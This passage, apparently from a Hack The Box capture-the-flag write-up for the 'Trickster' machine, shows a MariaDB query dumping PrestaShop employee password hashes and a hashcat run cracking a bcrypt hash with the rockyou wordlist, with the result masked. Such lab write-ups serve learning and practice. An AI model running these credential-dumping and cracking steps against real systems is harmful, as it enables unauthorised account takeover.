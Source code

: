 ```console
276 rows in set (0.001 sec)

MariaDB [prestashop]> select * from ps_employee;
select * from ps_employee;
```
Dumping `ps_employee` gives hashes for `admin@trickster.htb` and `james@trickster.htb`.

`Hashcat` cracks one of the hashes and got a password. `(Password is not shown)`

```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster]
└──╼ $ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 5 2600 Six-Core Processor, 2201/4467 MB (1024 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/*********:al**************
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/*********
Time.Started.....: Mon Oct 14 21:08:34 2024 (17 secs)
Time.Estimated...: Mon Oct 14 21:08:51 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1888 H/s (2.84ms) @ Accel:3 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 37044/14344385 (0.26%)
Rejected.........: 0/37044 (0.00%)
Restore.Point....: 37035/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-16
Candidate.Engine.: Device Generator
Candidates.#1....: andrew17 -> alkaline
Hardware.Mon.#1..: Util: 82%
```
